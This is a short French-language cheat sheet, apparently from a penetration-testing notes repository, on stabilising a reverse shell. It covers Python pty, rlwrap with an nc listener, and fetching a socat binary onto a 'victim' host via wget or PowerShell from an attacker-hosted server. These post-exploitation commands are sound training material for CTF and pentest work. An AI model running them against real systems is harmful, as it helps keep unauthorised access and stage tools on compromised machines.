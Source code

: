 # Stabiliser un shell avec Python

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Ctrl + Z
```
stty raw -echo; fg
```
```
export TERM=xterm
```

Appuyer sur Entrée ou entrer une commande (exemple: ls)

<br>
<br>

# Avec rlwrap

Sur kali
```
sudo apt install rlwrap
```

```
rlwrap nc -lvnp <port>
```
Ctrl + Z
```
stty raw -echo; fg
```

<br>
<br>

# Avec Socat

Lien du binaire: <a href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true">ici</a>

Sur kali
```
sudo python3 -m http.server 80
```

Sur linux [victime]
```
wget <IP>/socat -O /tmp/socat
```

Ou PowerShell [victime]
```
Invoke-WebRequest -uri <IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```
